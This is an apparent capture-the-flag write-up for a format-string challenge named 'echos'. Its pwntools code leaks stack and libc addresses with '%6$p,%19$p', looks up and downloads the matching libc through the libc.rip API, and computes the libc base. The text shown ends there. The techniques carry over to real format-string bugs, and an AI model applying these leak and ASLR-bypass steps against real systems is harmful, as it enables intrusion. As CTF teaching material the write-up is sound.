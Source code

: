 ### Setup

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./echos')
context.log_level = 'INFO'

if not args.REMOTE:
    context.log_file = 'local.log'
    libc = binary.libc
    p = process(binary.path)
else:
    context.log_file = 'remote.log'
    libc_index = 3
    p = remote('chal.duc.tf', 30001)
```

Boilerplate pwntool, however, `libc_index` is not _boilerplate_.  More on this below.


### Leak

```python
p.sendline('%6$p,%19$p')
_ = p.recvline().strip().split(b',')

stack_ret_addr = int(_[0],16) + 72
log.info('stack_ret_addr: ' + hex(stack_ret_addr))

__libc_start_main_231 = int(_[1],16)
log.info('__libc_start_main_231: ' + hex(__libc_start_main_231))
log.info('__libc_start_main: ' + hex(__libc_start_main_231 - 231))
```

Requesting parameters 6 and 19 provide the necessary bits to compute the location of the return address and libc (if we know the libc version).


### Find and download libc

```python
if not 'libc' in locals():
    try:
        import requests
        r = requests.post('https://libc.rip/api/find', json = {'symbols':{'__libc_start_main':hex(__libc_start_main_231 - 231)[-3:]}})
        libc_url = r.json()[libc_index]['download_url']
        libc_file = libc_url.split('/')[-1:][0]
        if not os.path.exists(libc_file):
            log.info('getting: ' + libc_url)
            r = requests.get(libc_url, allow_redirects=True)
            open(libc_file,'wb').write(r.content)
    except:
        log.critical('get libc yourself!')
        sys.exit(0)
    libc = ELF(libc_file)

libc.address = __libc_start_main_231 - libc.sym.__libc_start_main - 231
log.info('libc.address: ' + hex(libc.address))
```
